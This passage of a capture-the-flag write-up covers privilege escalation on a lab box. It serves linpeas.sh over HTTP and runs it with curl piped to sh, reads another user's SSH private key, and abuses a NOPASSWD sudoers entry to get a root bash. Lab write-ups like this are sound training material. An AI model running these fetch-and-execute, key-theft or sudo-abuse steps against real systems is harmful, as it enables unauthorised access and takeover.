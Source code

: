 i ran out of idea, so i use linpeas, and it shows me that i have read access to alice ssh key as humptydumpty.

Step to reproduce:
- Download [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) from github
- open port ``python3 -m http.server 3333``
- in the victim terminal run ``curl -L [Your IP:Port/linpeas.sh] | sh``

```sh
╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
-rw------- 1 humptydumpty humptydumpty 1679 Jul  3  2020 /home/alice/.ssh/id_rsa
```
So i read it and copy to local then access alice terminal using sshkey we got before.

another insteresting information is this:
```
Sudoers file: /etc/sudoers.d/alice is readable                       
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

yep, we able to run it as root, if we run it as superuser which is alice, then we got a bash as root, so let's do it:

```
sudo -h ssalg-gnikool /bin/bash
```

Result:
![image](https://github.com/DJumanto/Portswigger-XSS/assets/100863813/ea44b4f7-4517-4987-ba81-10d0f646e76e)




